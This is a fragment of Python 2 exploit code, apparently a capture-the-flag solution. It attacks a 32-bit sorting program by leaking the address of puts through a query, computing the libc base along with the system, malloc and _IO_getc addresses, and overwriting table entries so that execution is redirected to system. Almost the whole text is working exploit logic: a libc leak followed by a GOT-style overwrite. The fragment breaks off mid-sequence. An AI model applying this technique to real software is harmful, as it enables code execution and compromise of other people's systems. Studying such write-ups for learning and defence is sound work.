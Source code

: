 ```
       """
       sub_update(io, diff_index + 12, 0x10)
       sub_update(io, diff_index + 13, 0x0)
       sub_update(io, diff_index + 14, extern_got)
       sub_update(io, diff_index + 15, global_addr + 0x30)
 
       sub_update(io, diff_index + 16, 0x10)
       sub_update(io, diff_index + 17, 0x0)
       sub_update(io, diff_index + 18, strtol_got - 0xC)
       sub_update(io, diff_index + 19, 0)
       """
       sub_quit(io)
       seq = ['1', '%d'%(0x08048776)]
       io.gdb_hint()
       sort(io, seq)
 
       #if diff &lt; 0:
       #     sub_quit(io)
       #     t_exit(io)
       #     return False
       sub_query(io, 2)
       io.read_until("[*L*] Query result: ")
       data = int(io.read_until("n")[:-1])
       print data
       puts_addr = struct.unpack("I", struct.pack("i", data))[0]
       print "puts_addr:", hex(puts_addr)
       #elf_info = ELF("./libc.so.6")
       elf_info = ELF("./libc.so")
       print hex(elf_info.symbols["puts"])
 
       libc_addr = puts_addr - elf_info.symbols["puts"]
       system_addr = libc_addr + elf_info.symbols["system"]
       _IO_getc_addr = libc_addr + elf_info.symbols["_IO_getc"]
       malloc_addr = libc_addr + elf_info.symbols["malloc"]
       #__printf_chk_addr =  libc_addr + elf_info.symbols["__printf_chk"]
 
       malloc_addr = struct.unpack("i", struct.pack("I", malloc_addr))[0]
       #__printf_chk_addr = struct.unpack("i", struct.pack("I", __printf_chk_addr))[0]
      
       print malloc_addr
       print puts_addr
 
 
       sub_update(io, 0, malloc_addr)
       #sub_update(io, 1, puts_addr)
       sub_sort(io)
       print "system addr:", hex(system_addr)
 
       #system_addr = struct.unpack("i", struct.pack("I", system_addr))[0]
      
       io.gdb_hint()
       sub_quit(io)
       #io.interact()
       seq = ['1', '1']
      
       sort(io, seq)
       sub_sort(io)
      
       _IO_getc_addr = struct.unpack("i", struct.pack("I", _IO_getc_addr))[0]
       system_addr = struct.unpack("i", struct.pack("I", system_addr))[0]
       sub_update(io, 0, _IO_getc_addr)
       sub_update(io, 1, system_addr)
 
```